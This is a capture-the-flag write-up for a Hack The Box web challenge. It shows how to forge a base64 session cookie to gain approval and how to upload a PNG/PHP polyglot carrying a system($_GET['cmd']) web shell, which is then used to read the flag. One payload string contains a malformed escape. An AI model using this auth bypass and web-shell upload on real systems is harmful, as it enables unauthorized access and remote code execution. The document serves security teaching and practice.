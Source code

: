# Elf Directory (300)

## Problem

> Can you infiltrate the Elf Directory to get a foothold inside Santa's data warehouse in the North Pole?

## Solution

1. We do not have a copy of the source code for this challenge, so that makes it more challenging. We go to the website and are greeted with a login message. Let's try clicking on "Create one!", creating an account, and then signing in with that.

2. We see a profile screen with some basic details and a message that says "You don't have permission to edit your profile, contact the admin elf to approve your account!"

3. When viewing the page's HTML and looking for things that are our of place, we see the following JS code:

    ```html
    <script>
        $('#upload').change(function(){
        let path = $(this).val().replace('C:\\fakepath\\', '');
        $('#selectFile').html(path);
        })
    </script>
    ```

    These HTML IDs do not refer to anything on the page so something must be missing.

4. Next, we decide to check how your session remains signed in. There is a cookie called "PHPSESSID", which is common for PHP, with the value `eyJ1c2VybmFtZSI6InRlc3QiLCJhcHByb3ZlZCI6ZmFsc2V9`. This is base64 and when decoded using `base64 -d` shows `{"username":"test","approved":false}`.

5. Let's try setting `approved` to `true` and then encoding it again: `echo '{"username":"test","approved":true}' | base64` returns `eyJ1c2VybmFtZSI6InRlc3QiLCJhcHByb3ZlZCI6dHJ1ZX0K`. Swapping the cookie in the browser's developer tools and reloading the page now shows a "Update profile avatar" file selector.

6. Let's try uploading a new profile picture. Only PNGs are accepted, so there is some file type validation happening. After uploading the image, the page reloads and the profile picture has indeed changed. My image was originally called `Red.png`, but when it is uploaded it is renamed to `073cc_Red.png` and is placed in the `/uploads` directory.

7. So, we have control over the file name, but the application checks for a valid PNG. Let's see how it's doing that file type check by uploading the same picture with the name `Red.png.php`. This is successful, but trying to upload a text file that has `.php` in the name fails.

8. We can go through the file upload methodology discussed on [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload). It turns out that the application is checking if the magic bytes of a PNG image are present. So, let's create a file with those bytes and a call to `phpInfo`. The magic bytes for a PNG are `\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[` and we can call `phpInfo` with `<?php phpInfo(); ?>`. So, we run `printf "\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[<?php phpInfo(); ?>" > exploit_test.png.php` to get our image/php file/exploit. Uploading this file and then right clicking on our profile file and selecting "Open Image in New Tab" displays the PHP info page. We have achieved remote code execution.

9. So, lets pop a shell instead of showing the info page by running `<?php echo system($_GET['cmd']); ?>` instead of `<?php phpInfo(); ?>`. Create the exploit file with `<?php phpInfo(); ?>`. So, we run `printf "\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[<?php echo system(\$_GET['cmd']); ?>" > exploit.png.php`

10. Uploading and navigating to this image appears to work. Now we can run commands by setting the `cmd` parameter to the command we want to run. So, let's try to find the flag with `http://IP:PORT/uploads/195c2_exploit.png.php?cmd=ls%20-la%20/`. This reveals a file called `flag_65890d927c37c33.txt`. Let's open that file with `http://IP:PORT/uploads/195c2_exploit.png.php?cmd=cat%20/flag_65890d927c37c33.txt`. Running this prints the flag.

### Flag

`HTB{br4k3_au7hs_g3t_5h3lls}`
